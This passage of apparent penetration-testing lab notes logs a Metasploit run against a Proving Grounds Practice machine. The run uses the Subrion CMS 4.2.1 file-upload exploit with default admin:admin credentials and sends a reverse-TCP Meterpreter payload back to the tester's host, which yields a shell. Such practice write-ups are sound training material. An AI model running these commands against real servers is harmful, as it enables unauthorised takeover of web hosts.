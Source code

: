 ```
OS          : Linux debian 4.19.0-24-amd64 #1 SMP Debian 4.19.282-1 (2023-04-29) x86_64
Meterpreter : php/linux
meterpreter > 
```

### Subrion CMS v4.2.1 on Ubuntu 20.04 (Exfiltrated from Proving Grounds Practice)

* Using PHP paylod - default TARGET 0

```
msf6 > use exploit/linux/http/subrion_cms_file_upload_rce
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(linux/http/subrion_cms_file_upload_rce) > set RHOSTS 192.168.195.163
RHOSTS => 192.168.195.163
msf6 exploit(linux/http/subrion_cms_file_upload_rce) > set LHOST tun0
LHOST => tun0
msf6 exploit(linux/http/subrion_cms_file_upload_rce) > set LPORT 80
LPORT => 80
msf6 exploit(linux/http/subrion_cms_file_upload_rce) > exploit

[*] Started reverse TCP handler on 192.168.45.162:80 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking target web server for a response at: http://192.168.195.163:80/panel/
[+] Target is running Subrion CMS.
[*] Checking Subrion CMS version...
[+] Target is running Subrion CMS Version 4.2.1.
[!] This version check does not guarantee that the target is vulnerable, since a fix for the vulnerability can easily be applied by a web admin.
[+] The target appears to be vulnerable.
[*] Connecting to Subrion Admin Panel login page to obtain CSRF token...
[+] Successfully obtained CSRF token: rtPDWFrHa45hIhhXhLknM7DbWiHqAfux1fziFd3j
[*] Logging in to Subrion Admin Panel at: http://192.168.195.163/panel/ using credentials admin:admin
[+] Successfully logged in as Administrator.
[*] Preparing payload...
[*] Sending POST data...
[+] Successfully uploaded payload at: http://192.168.195.163/uploads/ixqywjyjyd.phar
[*] Executing 'ixqywjyjyd.phar'... This file will be deleted after execution.
[*] Sending stage (39927 bytes) to 192.168.195.163
[*] Meterpreter session 1 opened (192.168.45.162:80 -> 192.168.195.163:57658) at 2023-07-24 10:35:58 -0400
[+] Successfully executed payload: http://192.168.195.163/uploads/ixqywjyjyd.phar

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : exfiltrated
OS          : Linux exfiltrated 5.4.0-74-generic #83-Ubuntu SMP Sat May 8 02:35:39 UTC 2021 x86_64
Meterpreter : php/linux
meterpreter > shell
Process 2489 created.
Channel 0 created.
cat /etc/os-release               
NAME="Ubuntu"
VERSION="20.04.2 LTS (Focal Fossa)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 20.04.2 LTS"
VERSION_ID="20.04"
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
```